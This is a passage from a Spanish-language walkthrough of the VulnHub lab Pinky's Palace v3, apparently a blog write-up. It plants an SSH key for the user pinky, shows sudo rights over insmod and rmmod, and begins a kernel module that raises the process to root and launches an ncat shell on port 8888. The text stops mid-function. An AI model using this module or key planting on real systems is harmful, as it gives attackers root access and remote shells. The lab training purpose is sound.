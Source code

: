 La pegamos igual que antes pero ahora en el usuario `pinky`.

```bash
mkdir /home/pinky/.ssh/
echo "PEGA_TU_CLAVE_PÚBLICA_AQUÍ" >> /home/pinky/.ssh/authorized_keys
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-34.png)

Ahora si con un sudo -l encontramos:

```bash
pinky@pinkys-palace:~$ sudo -l
Matching Defaults entries for pinky on pinkys-palace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinky may run the following commands on pinkys-palace:
    (ALL) NOPASSWD: /sbin/insmod
    (ALL) NOPASSWD: /sbin/rmmod
```

Este usuario tiene permisos sudo sobre dos binarios que son utilidades del sistema que permiten instalar modulos de kernel y eliminarlos.

Podemos usar un rootkit existente o crear un modulo sencillo para escalar a UID 0.

En este caso la victima si tenía los headers necesarios para compilar pero si no fuese el caso tendríamos que buscar un rootkit con la versión de kernel que tenga comprobando con `uname -r`.

- Código del rootkit.c

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kmod.h>
#include <linux/cred.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Yo");
MODULE_DESCRIPTION("Rootkit sencillo para abrir reverse shell como root");

static int __init rootkit_init(void)
{
    printk(KERN_INFO "[rootkit] Cargando el módulo...\n");

    // 1. Elevar privilegios al proceso que ejecuta insmod
    commit_creds(prepare_kernel_cred(NULL));

    // 2. Definir comando para la reverse shell
    // Sustituye TU_IP y PUERTO por tu IP atacante y puerto
    char *argv[] = {
        "/bin/bash",
        "-c",
        "ncat -lvnp 8888 -e /bin/bash",
        NULL
    };
```
